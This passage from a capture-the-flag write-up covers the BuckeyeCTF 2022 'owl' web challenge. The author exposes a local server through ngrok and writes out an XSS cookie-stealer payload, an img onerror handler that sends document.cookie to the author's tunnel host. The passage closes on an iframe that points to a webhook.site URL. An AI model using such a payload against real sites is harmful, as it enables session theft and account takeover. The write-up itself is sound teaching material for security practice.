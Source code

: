 ```
[...]
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    http://360c-{Redacted}.ap.ngrok.io -> http://localhost:80                
                                                                                                           
Connections                   ttl     opn     rt1     rt5     p50     p90                                  
                              0       0       0.00    0.00    0.00    0.00
```

Now, we can try to send a URL to the `owl` Discord bot:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104233819.png)

But how do we get the flag cookie??

**We can do this via a [XSS cookie stealer payload](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md#inject-the-xss-attack-code):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104234421.png)

**Let's copy that and modify our `index.html` in `/owl`!**
```
┌──(root🌸siunam)-[~/…/BuckeyeCTF-2022/Web/owl/owl]
└─# cat index.html 
<html>
<title>Test</title>
<body>
	<p>Owl here</p>
	<img src=x onerror="this.src='http://360c-{Redacted}.ap.ngrok.io/owl/?'+document.cookie; this.removeAttribute('onerror');">
</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104234517.png)

This time, we see it returns `hoooot hoot hoot hoot hoot hoot`, which means it included a cookie.

> Note: The reason why I didn't have the `<script>` tag is because of the `fly()` function.

**Hmm... Since the `<script>` tag is blocked, maybe we can try to use the `<iframe>` tag???** 

> Note: `<iframe>` allows the page to show other files/people's web contents.

**To do so, I'll use a online webhook service: [Webhook.site](https://webhook.site)**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/BuckeyeCTF-2022/images/Pasted%20image%2020221104235659.png)

That will be our iframe's source URL!

**Now, let's modify our `owl/index.html`!**
```
┌──(root🌸siunam)-[~/…/BuckeyeCTF-2022/Web/owl/owl]
└─# cat index.html 
<html>
<title>Test</title>
<body>
	<p>Owl here</p>
	<iframe src="https://webhook.site/5d93b54e-1000-4941-a358-b50e48824e09"></iframe>
</body>
</html>
```
